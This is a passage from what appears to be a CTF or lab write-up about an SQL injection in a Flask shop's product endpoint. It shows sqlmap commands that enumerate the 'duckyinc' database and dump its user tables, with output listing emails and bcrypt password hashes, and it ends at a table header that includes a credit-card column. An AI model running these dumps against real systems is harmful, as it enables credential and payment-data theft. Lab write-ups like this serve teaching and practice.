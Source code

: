 ```python
    app.run('0.0.0.0')
```

In the products fuction , we know it have sqli exploit. Because this use sql syntax directly, and it not any proctect.  
When it comes to sqli, we can use sqlmap to auto exploit, first we can check database.  
`sqlmap -u http://10.10.68.32/products/1 --current-db --batch`  
```
[06:31:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.12
[06:31:01] [INFO] fetching current database
current database:    'duckyinc'
[06:31:01] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 68 times, 405 (Method Not Allowed) - 1 times
[06:31:01] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.68.32'

[*] shutting down at 06:31:01
```  

we got duckyinc db, next we can retrieve tables and schema.  
`sqlmap -u http://10.10.68.32/products/1 -D duckyinc --tables --batch`  
```
Database: duckyinc
[3 tables]
+-------------+
| system_user |
| user        |
| product     |
+-------------+

[06:36:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.68.32'
```   
`sqlmap -u http://10.10.68.32/products/1 -T system_user --dump --batch`  
```
Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
+----+----------------------+--------------+--------------------------------------------------------------+
```  
`sqlmap -u http://10.10.68.32/products/1 -T user --dump --batch`  
```
Database: duckyinc
Table: user
[10 entries]
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```